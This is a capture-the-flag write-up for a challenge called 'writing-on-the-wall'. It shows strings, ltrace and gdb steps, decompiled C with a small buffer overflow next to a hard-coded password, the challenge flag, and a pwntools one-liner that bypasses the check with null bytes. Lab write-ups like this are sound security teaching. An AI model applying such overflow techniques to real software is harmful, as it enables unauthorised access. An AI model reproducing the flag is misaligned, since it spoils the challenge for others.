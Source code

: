 # writing-on-the-wall

As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints. 
Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. 
Could this be the elusive password, waiting to unveil the door's secrets?

## Solution

```sh
strings writing_on_the_wall | less
# w3tpass H

ltrace ./writing_on_the_wall
```

```
AAAABBBBCCCCDDDDEEEEFFFF, overflows BCCCCDDDDEEEEFFFF

AAAAAAAABBBBBBBBCCCCCCCC, overflows ABBBBBBBBCCCCCCCC
```

```c
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = 0x2073736170743377;

  read(0,local_1e,7); // overflow

  iVar1 = strcmp(local_1e,(char *)&local_18);
  if (iVar1 == 0) {
    open_door();
  }
  else {
    error("You activated the alarm! Troops are coming your way, RUN!\n");
  }
```

```
gdb

set disassembly-flavor intel

file writing_on_the_wall
layout asm
layout regs
info file

starti
b *main+12
c
```

0x2073736170743377 -> w3tpass

HTB{3v3ryth1ng_15_r34d4bl3}

## Post-CTF

Actually the exploit could have been done by:

```py
pwn.sendlineafter(b">>", "\x00"*7)
```

The null byte comparison was the actual exploit, I found it by chance.
